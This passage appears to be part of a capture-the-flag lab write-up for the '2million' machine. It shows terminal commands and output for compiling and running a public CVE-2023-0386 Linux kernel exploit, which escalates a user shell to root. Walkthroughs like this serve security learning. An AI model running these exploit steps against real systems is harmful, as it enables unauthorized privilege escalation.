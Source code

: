 ```

```

now heading over to the machine to unzip it and compile it

```
admin@2million:/tmp$ unzip cve.zip
Archive:  cve.zip
   creating: CVE-2023-0386/
   creating: CVE-2023-0386/.git/
  inflating: CVE-2023-0386/.git/index  
  .....................................
admin@2million:/tmp$ cd /tmp/CVE-2023-0386/
admin@2million:/tmp/CVE-2023-0386$ make all
admin@2million:/tmp/CVE-2023-0386$ ls
exp  exp.c  fuse  fuse.c  gc  getshell.c  Makefile  ovlcap  README.md  test
```

The way the exploit from the github was explained was that we need to have the first command running in the background
```
admin@2million:/tmp/CVE-2023-0386$ ./fuse ./ovlcap/lower ./gc &
[1] 5792
admin@2million:/tmp/CVE-2023-0386$ [+] len of gc: 0x3ee0
```

and now time for execution

```
admin@2million:/tmp/CVE-2023-0386$ ./exp
uid:1000 gid:1000
[+] mount success
[+] readdir
[+] getattr_callback
/file
total 8
drwxrwxr-x 1 root   root     4096 Sep 12 17:36 .
drwxr-xr-x 6 root   root     4096 Sep 12 17:36 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] open_callback
/file
[+] read buf callback
offset 0
size 16384
path /file
[+] open_callback
/file
[+] open_callback
/file
[+] ioctl callback
path /file
cmd 0x80086601
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
root@2million:/tmp/CVE-2023-0386#
```
